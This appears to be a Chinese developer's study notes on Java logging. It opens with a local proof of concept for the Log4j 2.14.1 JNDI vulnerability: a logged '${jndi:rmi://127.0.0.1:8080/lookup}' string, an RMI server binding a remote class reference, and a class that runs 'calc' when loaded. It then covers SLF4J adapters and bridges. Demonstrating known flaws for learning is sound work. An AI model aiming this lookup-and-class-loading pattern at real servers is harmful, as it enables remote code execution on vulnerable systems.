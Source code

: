 [TOC]

### log4j漏洞演示

```xml
<!--使用log4j日志; <=2.14.1; >= 2.15.0修复-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

```xml
<!--log4j2.xml-->
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
	<!--全局参数-->
	<Properties>
		<Property name="pattern">log4j2: %d{yyyy-MM-dd HH:mm:ss} %5p [%t] - %m%n</Property>
	</Properties>
	<Loggers>
		<Root level="INFO">
			<AppenderRef ref="console"/>
		</Root>
	</Loggers>
	<Appenders>
		<!-- 定义输出到控制台 -->
		<Console name="console" target="SYSTEM_OUT" follow="true">
			<!--控制台只输出level及以上级别的信息-->
			<ThresholdFilter level="INFO" onMatch="ACCEPT" onMismatch="DENY"/>
			<PatternLayout>
				<Pattern>${pattern}</Pattern>
			</PatternLayout>
		</Console>
	</Appenders>
</Configuration>
```

```properties
# log4j.properties
log4j.rootLogger=DEBUG, stdout
log4j.appender.stdout.Target = System.out
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.layout.ConversionPattern=%5p [%t] - %m%n
```

```java
package cn.qingweico;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * -Dlog4j2.formatMsgNoLookups=true
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LogManager.getLogger("log4j");
    public static void main(String[] args) {
        String username="${java:os}";
        logger.info("Hello, {}",username);
    }
}

```

```xml
<!--使用slf4j日志-->
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
```

```java
package cn.qingweico;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LoggerFactory.getLogger("slf4j");
    public static void main(String[] args) {
        String username="${jndi:rmi://127.0.0.1:8080/lookup}";
        logger.info("Hello, {}",username);
    }
}
```

```java
package cn.qingweico;

import java.io.IOException;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class Look {
   static {
      try {
         Runtime.getRuntime().exec("calc");
      } catch (IOException e) {
         e.printStackTrace();
      }
   }
}
```

```java
package cn.qingweico;


import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class RmiServer {
   public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
      Registry registry = LocateRegistry.createRegistry(8080);
      registry.bind("lookup", new ReferenceWrapper(new Reference(
              null, "cn.qingweico.Look", null
      )));
   }
}
```

### 日志适配和桥接

```xml
<!--jcl -->
<dependency>
    <groupId>commons-logging</groupId>
    <artifactId>commons-logging</artifactId>
    <version>1.2</version>
</dependency>
<!--log4j-->
<dependency>
    <groupId>log4j</groupId>
    <artifactId>log4j</artifactId>
    <version>1.2.17</version>
</dependency>
<!--slf4j -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-api</artifactId>
    <version>1.7.25</version>
</dependency>
```

```xml
<!--slf4j适配log4j1.x -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-log4j12</artifactId>
    <version>1.7.25</version>
</dependency>
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
<!--slf4j适配jcl-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-jcl</artifactId>
    <version>1.7.25</version>
</dependency>
<!--log4j 桥接到 slf4j-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>log4j-over-slf4j</artifactId>
    <version>1.7.25</version>
</dependency>
```

| 名称              | jar包                                         | 描述                             |
| ----------------- | --------------------------------------------- | -------------------------------- |
| log4j             | log4j-xxx.jar                                 | 早期常用日志组件                 |
| logback           | logback-core、logback-classic、logback-access | 一套日志组件的实现 性能优于log4j |
| log4j2            | log4j、log4-api 、log4j-core                  | apache 开发的一款log4j的升级产品 |
| java.util.logging | jdk                                           | Java 1.4 以来的官方日志实现      |

适配器

![Java日志 (1)](https://cdn.qingweico.cn/blog/Java%E6%97%A5%E5%BF%97%20(1).png)

桥接器

![日志桥接器](https://cdn.qingweico.cn/%E6%97%A5%E5%BF%97%E6%A1%A5%E6%8E%A5%E5%99%A8.png)